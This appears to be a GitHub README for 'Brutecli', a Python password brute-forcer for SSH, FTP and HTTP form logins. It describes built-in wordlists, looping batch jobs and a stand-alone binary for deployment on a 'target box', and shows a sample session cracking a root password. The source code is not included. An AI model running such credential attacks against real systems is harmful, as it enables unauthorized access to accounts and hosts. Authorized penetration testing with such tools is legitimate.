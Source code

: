 
# Brutecli
auto brute forcer 
🎯 What It Does
Feature	Details
Protocols	SSH, FTP, HTTP form-based logins
Word-lists	50× common usernames & passwords baked into the code
Load custom -U users.txt / -P rockyou.txt lists any time
Wizard UI	Launch the script with no arguments for an interactive menu—perfect for quick one-off tests
Batch mode	Feed a YAML file with multiple jobs: brutecli.py -B tasks.yaml --loop (re-runs forever with delay)
No hard deps	Falls back to plain text if termcolor is missing; imports heavy libs only when needed
Packaging	Single-file script blends perfectly into a PyInstaller binary (-F) for drop-n-run deployments
🛠 Requirements

    Python 3.8+

    Optional (recommended):

        paramiko – SSH support

        requests – HTTP form testing

        PyYAML – batch/automation

        termcolor – pretty colours

    Kali / Debian / Ubuntu: install the distro packages and avoid the PEP 668 “externally-managed” error

    sudo apt update
    sudo apt install python3-termcolor python3-paramiko python3-requests python3-yaml

Or use a venv:

python3 -m venv venv
source venv/bin/activate
pip install termcolor paramiko requests pyyaml

🚀 Quick Start

# 1. Clone
git clone https://github.com/yourname/brutecli.git
cd brutecli

# 2. Run the wizard
python brutecli.py

Sample session:

 ____                 _          ____ _     ___ 
| __ )  ___  __ _  __| | ___ _ _| __ ) |   |_ _|
|  _ \ / _ \/ _` |/ _` |/ _ \ '__|  _ \ |    | | 
| |_) |  __/ (_| | (_| |  __/ |  | |_) | |___| | 
|____/ \___|\__,_|\__,_|\___|_|  |____/|_____|___|

Protocol (ssh / ftp / http) [ssh]: 
Target host/IP: 10.0.0.12
Threads [4]: 8
Timeout seconds [5]: 
Single username (blank = userlist): root
Custom passlist file (blank = built-in): rockyou-top100.txt
SSH port [22]: 
[•] 100 combos → SSH 10.0.0.12 (8 threads)
[+] root:P@ssw0rd
[✓] Finished in 1.2 s

💻 Command-line Examples

# SSH with built-in lists
python brutecli.py ssh 192.168.56.10 -t 8

# FTP, custom passwords, built-in users
python brutecli.py ftp ftp.target.com -P rockyou.txt

# HTTP form, fixed user, baked-in passwords
python brutecli.py http https://site/login --username admin --success Welcome

Batch automation

# tasks.yaml
- protocol: ssh
  target: 192.168.56.10
  username: root
  passlist: mini_pw.txt
  port: 22
  threads: 4
  timeout: 5

- protocol: http
  target: intranet
  url: https://intranet.local/login
  userlist: corp_users.txt
  passlist: mini_pw.txt
  user_field: user
  pass_field: pass
  success: "Dashboard"
  threads: 6
  timeout: 5

python brutecli.py -B tasks.yaml --loop --delay 300   # every 5 min forever

📦 Build a Stand-alone Binary

pip install pyinstaller
pyinstaller -F brutecli.py        # yields dist/brutecli  (or brutecli.exe)

The binary contains all imported libraries and your word-lists—no Python needed on the target box.
🤝 Contributing

    Fork & branch: git checkout -b feature/my-cool-idea

    Hack away—stick to 4-space indents and keep zero external deps unless strictly necessary.

    PR into dev branch with a clear description and usage notes.

Bug reports → Issues tab.
Feature chat → Discussions.

